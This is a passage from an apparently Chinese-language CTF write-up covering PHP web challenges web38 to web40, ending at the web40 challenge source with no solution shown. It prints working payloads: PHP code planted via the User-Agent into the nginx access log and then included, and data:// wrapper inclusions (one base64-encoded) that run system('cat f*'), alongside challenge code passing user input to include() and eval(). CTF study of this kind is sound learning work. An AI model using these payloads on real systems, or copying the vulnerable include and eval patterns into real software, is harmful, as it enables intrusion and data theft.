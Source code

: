 ```php
<?php system('cat f*');?>
```

然后url传参 

```php
?c=/var/log/nginx/access.log
```

这时由于我们的 UA 修改为php脚本了，所以在日志文件中会存在记录，然后再把日志文件包含到当前php文件中，此时日志中存在的php脚本就执行了，我们就查到了flag



### web39

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

我们发现 include中变量后拼接了一个 .php 

但是由于我们使用 data:// 协议，后面的php代码中 ?> 闭合了，导致后面的 .php 没有什么影响

于是，payload:

```php
?c=data://text/plain,<?= system('cat f*');?>
?c=data://text/plain;base64,PD89IHN5c3RlbSgnY2F0IGYqJyk7Pz4=
```



### web40

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
} 
```
